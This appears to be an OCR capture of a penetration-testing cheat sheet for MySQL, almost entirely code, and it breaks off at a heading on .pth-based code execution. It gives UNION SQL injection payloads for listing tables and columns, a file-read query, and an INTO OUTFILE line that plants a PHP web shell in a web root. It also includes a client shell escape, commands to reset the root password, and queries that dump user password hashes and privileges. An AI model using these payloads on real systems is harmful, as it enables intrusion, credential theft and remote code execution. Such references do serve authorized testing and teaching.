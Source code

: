 ```
select @@version(); #version
select user(); #User
select database(); #database name

#Get a shell with the mysql client user
\! sh

#Basic MySQLi
Union Select 1,2,3,4,group_concat(0x7c,table_name,0x7C) from information_schema.tables
Union Select 1,2,3,4,column_name from information_schema.columns where table_name="<TABLE NAME>"

#Read & Write
## Yo need FILE privilege to read & write to files.
select load_file('/var/lib/mysql-files/key.txt'); #Read file
select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE 'C:/xampp/htdocs/back.php'

#Try to change MySQL root password
UPDATE mysql.user SET Password=PASSWORD('MyNewPass') WHERE User='root';
UPDATE mysql.user SET authentication_string=PASSWORD('MyNewPass') WHERE User='root';
FLUSH PRIVILEGES;
quit;
```
```
```bash
mysql -u username -p < manycommands.sql #A file with all the commands you want to execute
mysql -u root -h 127.0.0.1 -e 'show databases;'
```
```
### MySQL Permissions Enumeration

```sql
#Mysql
SHOW GRANTS [FOR user];
SHOW GRANTS;
SHOW GRANTS FOR 'root'@'localhost';
SHOW GRANTS FOR CURRENT_USER();

# Get users, permissions & hashes
SELECT * FROM mysql.user;

#From DB
select * from mysql.user where user='root';
## Get users with file_priv
select user,file_priv from mysql.user where file_priv='Y';
## Get users with Super_priv
select user,Super_priv from mysql.user where Super_priv='Y';

# List functions
SELECT routine_name FROM information_schema.routines WHERE routine_type = 'FUNCTION';
#@ Functions not from sys. db
SELECT routine_name FROM information_schema.routines WHERE routine_type = 'FUNCTION' AND routine_schema!='sys';
```
```
You can see in the docs the meaning of each privilege: [[https://dev.mysql.com/doc/refman/8.0/en/privileges-provided.html#priv_execute|https://dev.mysql.com/doc/refman/8.0/en/privileges-provided.html]]

### MySQL File RCE

[[../pentesting-web/sql-injection/mysql-injection/mysql-ssrf.md]]

#### INTO OUTFILE → Python `.pth` RCE (site-specific configuration hooks)

```